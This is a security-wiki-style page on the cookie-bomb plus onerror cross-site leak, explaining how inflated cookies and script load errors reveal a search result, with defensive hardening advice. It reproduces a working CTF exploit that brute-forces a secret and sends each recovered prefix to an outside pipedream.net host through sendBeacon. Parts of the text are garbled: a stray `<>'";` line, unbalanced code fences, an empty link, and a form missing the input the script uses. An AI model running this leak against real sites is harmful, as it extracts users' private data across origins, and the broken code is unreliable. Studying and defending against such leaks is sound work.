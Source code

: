 # Cookie Bomb + Onerror XS Leak


This technique combines:
- Cookie bombing: stuffing the victim’s browser with many/large cookies for the target origin so that subsequent requests hit server/request limits (request header size, URL size in redirects, etc.).
- Error-event oracle: probing a cross-origin endpoint with a <script> (or other subresource) and distinguishing states with onload vs onerror.

High level idea
- Find a target endpoint whose behavior differs for two states you want to test (e.g., search “hit” vs “miss”).
- Ensure the “hit” path will trigger a heavy redirect chain or long URL while the “miss” path stays short. Inflate request headers using many cookies so that only the “hit” path causes the server to fail with an HTTP error (e.g., 431/414/400). The error flips the onerror event and becomes an oracle for XS-Search.

When does this work
- You can cause the victim browser to send cookies to the target (e.g., cookies are SameSite=None or you can set them in a first-party context via a popup window.open).
- There is an app feature you can abuse to set arbitrary cookies (e.g., “save preference” endpoints that turn controlled input names/values into Set-Cookie) or to make post-auth redirects that incorporate attacker-controlled data into the URL.
- The server reacts differently on the two states and, with inflated headers/URL, one state crosses a limit and returns an error response that triggers onerror.

Note on server errors used as the oracle
- 431 Request Header Fields Too Large is commonly returned when cookies inflate request headers; 414 URI Too Long or a server-specific 400 may be returned for long request targets. Any of these result in a failed subresource load and fire onerror. [MDN documents 431 and typical causes like excessive cookies.]()

Practical example (angstromCTF 2022)
The following script (from a public writeup) abuses a feature that lets the attacker insert arbitrary cookies, then loads a cross-origin search endpoint as a script. When the query is correct, the server performs a redirect that, together with the cookie bloat, exceeds server limits and returns an error status, so script.onerror fires; otherwise nothing happens.

```html
<>'";
<form action="https://sustenance.web.actf.co/s" method="POST">
  
</form>
<script>
  const $ = document.querySelector.bind(document)
  const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
  let i = 0
  const stuff = async (len = 3500) => {
    let name = Math.random()
    $("form").target = name
    let w = window.open("", name)
    $("#f").value = "_".repeat(len)
    $("#f").name = i++
    $("form").submit()
    await sleep(100)
  }
  const isError = async (url) => {
    return new Promise((r) => {
      let script = document.createElement("script")
      script.src = url
      script.onload = () => r(false)
      script.onerror = () => r(true)
      document.head.appendChild(script)
    })
  }
  const search = (query) => {
    return isError(
      "https://sustenance.web.actf.co/q?q=" + encodeURIComponent(query)
    )
  }
  const alphabet =
    "etoanihsrdluc_01234567890gwyfmpbkvjxqz{}ETOANIHSRDLUCGWYFMPBKVJXQZ"
  const url = "//en4u1nbmyeahu.x.pipedream.net/"
  let known = "actf{"
  window.onload = async () => {
    navigator.sendBeacon(url + "?load")
    await Promise.all([stuff(), stuff(), stuff(), stuff()])
    await stuff(1600)
    navigator.sendBeacon(url + "?go")
    while (true) {
      for (let c of alphabet) {
        let query = known + c
        if (await search(query)) {
          navigator.sendBeacon(url, query)
          known += c
          break
        }
      }
    }
  }
</script>
```
```
Why the popup (window.open)?
- Modern browsers increasingly block third-party cookies. Opening a top-level window to the target makes cookies first‑party so Set-Cookie responses from the target will stick, enabling the cookie-bomb step even with third‑party cookie restrictions.

Generic probing helper
If you already have a way to set many cookies on the target origin (first-party), you can reuse this minimal oracle against any endpoint whose success/failure leads to different network outcomes (status/MIME/redirect):

```js
function probeError(url) {
  return new Promise((resolve) => {
    const s = document.createElement('script');
    s.src = url;
    s.onload = () => resolve(false);  // loaded successfully
    s.onerror = () => resolve(true);  // failed (e.g., 4xx/5xx, wrong MIME, blocked)
    document.head.appendChild(s);
  });
}
```
```
Tips to build the oracle
- Force the “positive” state to be heavier: chain an extra redirect only when the predicate is true, or make the redirect URL reflect unbounded user input so it grows with the guessed prefix.
- Inflate headers: repeat cookie bombing until a consistent error is observed on the “heavy” path. Servers commonly cap header size and will fail sooner when many cookies are present.
- Stabilize: fire multiple parallel cookie set operations and probe repeatedly to average out timing and caching noise.

Related XS-Search tricks
- URL length based oracles (no cookies needed) can be combined or used instead when you can force a very long request target:

[[url-max-length-client-side.md]]

Defenses and hardening
- Make success/failure responses indistinguishable:
  - Avoid conditional redirects or large differences in response size between states. Return the same status, same content type, and similar body length regardless of state.
- Block cross-site subresource probes:
  - SameSite cookies: set sensitive cookies to SameSite=Lax or Strict so subresource requests like <script src> don’t carry them; prefer Strict for auth tokens when possible.
  - Fetch Metadata: enforce a Resource Isolation Policy to reject cross-site subresource loads (e.g., if Sec-Fetch-Site != same-origin/same-site).
  - Cross-Origin-Resource-Policy (CORP): set CORP: same-origin (or at least same-site) for endpoints not meant to be embedded as cross-origin subresources.
  - X-Content-Type-Options: nosniff and correct Content-Type on JSON/HTML endpoints to avoid load-as-script quirks.
- Reduce header/URL amplification:
  - Cap the number/size of cookies set; sanitize features that turn arbitrary form fields into Set-Cookie.
  - Normalize or truncate reflected data in redirects; avoid embedding attacker-controlled long strings in Location URLs.
  - Keep server limits consistent and fail uniformly (avoid special error pages only for one branch).

Notes
- This class of attacks is discussed broadly as “Error Events” XS-Leaks. The cookie-bomb step is just a convenient way to push only one branch over server limits, producing a reliable boolean oracle.


## References
- XS-Leaks: Error Events (onerror/onload as an oracle): https://xsleaks.dev/docs/attacks/error-events/
- MDN: 431 Request Header Fields Too Large (common with many cookies): https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/431

